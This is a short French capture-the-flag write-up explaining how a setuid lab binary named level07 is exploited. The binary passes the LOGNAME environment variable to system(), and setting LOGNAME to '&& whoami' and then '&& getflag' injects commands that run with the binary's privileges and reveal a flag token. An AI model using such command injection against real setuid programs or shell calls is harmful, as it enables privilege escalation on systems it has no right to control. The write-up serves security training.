 On trouve dans le dossier home un binaire ./level07, qui, si on le lance nous affiche un message:
<pre><code>> ./level07
level07</code></pre>

On cherche a savoir ce que le binaire fait, pour cela on utilise ltrace:
<pre><code>> ltrace ./level07
__libc_start_main(0x8048514, 1, 0xbffff7f4, 0x80485b0, 0x8048620
getegid()= 2007
geteuid()= 2007
setresgid(2007, 2007, 2007, 0xb7e5ee55, 0xb7fed280)= 0
setresuid(2007, 2007, 2007, 0xb7e5ee55, 0xb7fed280)= 0
getenv("LOGNAME")= "level07"
asprintf(0xbffff744, 0x8048688, 0xbfffff62, 0xb7e5ee55, 0xb7fed280)= 18
system("/bin/echo level07 "level07
--- SIGCHLD (Child exited) ---
<... system resumed> )= 0
+++ exited (status 0) +++
</code></pre>

On observe que le binaire fait un **getenv** et appel system pour faire un **echo**

On fait un <code>env</code> pour voir la varibale **LOGNAME**:
<pre><code>> env
...
LOGNAME=level07
...
</code></pre>

On tente de faire une injection avec un <code>whoami</code> pour verifier de un, que l'injection fonctionne, mais aussi pour connaitre les droits avec lesquels le binaire est lancé.

<pre><code>> LOGNAME="&& whoami"
> ./level07

flag07
</code></pre>

>On observe flag07, ce qui veut dire que nous pouvons faire un getflag

<pre><code>> LOGNAME="&& getflag"
> ./level07

Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
</code></pre>

